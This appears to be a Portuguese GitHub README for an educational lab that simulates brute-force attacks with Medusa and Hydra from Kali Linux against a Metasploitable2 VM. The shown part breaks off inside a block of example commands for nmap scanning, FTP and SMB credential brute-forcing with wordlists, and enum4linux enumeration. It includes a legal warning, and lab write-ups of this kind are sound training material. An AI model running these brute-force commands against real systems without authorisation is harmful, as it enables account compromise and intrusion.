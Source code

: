 # Medusa-kali-metasp
Laboratório: ataque de brute-force com Medusa(Kali + Metasploitable2)
# Simulação de Ataques de Força Bruta com Kali + Medusa

**Autor:** Seu Nome  
**Ambiente:** VirtualBox — Kali Linux (atacante) e Metasploitable2 (alvo) em rede host-only  
**Data:** 2025-10-03

## Resumo
Laboratório prático simulando ataques de força bruta em serviços comuns (FTP, SMB, Web) usando Kali Linux e **Medusa**. O objetivo é aprender técnicas de auditoria controlada, documentar as ações e propor mitigações.

> **Aviso legal:** Todos os testes foram executados em VMs isoladas e controladas (metasploitable). Não execute ataques contra sistemas sem autorização.

---

## Arquitetura do laboratório
- VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable2 (alvo)
- Rede: Host-only (isolada do resto da rede)
- Fazer snapshot das VMs antes de começar

---

## Ferramentas utilizadas
- Kali Linux
- Nmap
- Medusa (brute-force)
- Hydra (alternativa)
- enum4linux
- nc / ftp (testes manuais)
- fsck / mount (recuperação de filesystem)

---

## Wordlists incluídas
- `users.txt` — lista de usuários de teste
- `pass.txt` — lista de senhas de teste

(As wordlists são intencionais e simples para fins didáticos.)

---

## Comandos executados (exemplos)
```bash
# Reconhecimento e descoberta
nmap -sV -p 21,22,80,139,445 192.168.56.101 -oN nmap_scan.txt

# Teste manual de FTP
ftp 192.168.56.101
# ou
nc 192.168.56.101 21

# Medusa - brute force FTP (arquivo de usuários e senhas)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 > medusa_out.txt

# Hydra (alternativa)
hydra -L users.txt -P pass.txt ftp://192.168.56.101 -t 6

# Enumeração SMB
enum4linux -a 192.168.56.101 > enum4linux_out.txt

# Caso de erro de filesystem (no alvo) — exemplo de recuperação (em modo manutenção):
fsck -f /dev/mapper/metasploitable-root
